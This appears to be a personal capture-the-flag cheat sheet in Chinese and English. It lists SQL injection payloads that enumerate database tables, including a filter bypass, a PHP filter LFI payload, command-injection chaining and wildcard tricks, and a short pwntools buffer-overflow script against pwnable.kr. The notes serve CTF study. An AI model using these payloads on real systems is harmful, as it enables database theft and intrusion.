 # CTF note
## WEB

### SQL injection

select database()

group_concat(table_name) from information_schema.tables where table_schema=‘database()’
再看某個資料庫的table (單引號要提換成實際database name)

group_concat(column_name) from information_schema.columns where table_name='wargame2key'-- -

or (尾端單引號內容可換成hex 然後不需要單引號 , 不行的話試試看單引號不要拿掉)

group_concat(table_name)/*1*/frofromm/*1*/information_schema.tables/*1*/where/*1*/table_schema=0x74657374#

---

已知欄位數量 database()名稱

(`limit`參數為開始欄位id,顯示數量)

查看表個名:
(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='置換成db名稱' limit 0,1)

查看欄位名:
(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='置換成表格名稱' limit 1,1)

取得欄位內容:
(select flag from flag limit 1,1)

### LFI

> ?page=`php://filter/read=convert.base64-encode/resource=path`

### command injection

**串接指令** : `反引號` , `&&` , `|` , `;`

**讀取檔案** : `cat` , `head` , `tail` , `sort` , `more`

**檔名被過濾** : 萬用字元繞過 (ex:flag.txt --> `cat fla*`)

## PWN

### asm intel

參數存入rigister順序 `printf(rdi,rsi,rdx,rcx,r8,r9)`

[ref](http://abcdxyzk.github.io/blog/2012/11/23/assembly-args/)

### reverse

- objump -d -M intel filename

### pwnalbe

- 32bit frame

  - gcc -m32

- protect
  
  - gcc -fno-stack-protector file.c(關閉canary)

- gdb調用技巧

  - disas main

  - info func
 
  - x $ebp+8

- pwntools
 
  - OFFSET  

    - cyclib(50)
 
    - cyclib_find('aa') 

`pwntools 基本用法`
```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```
w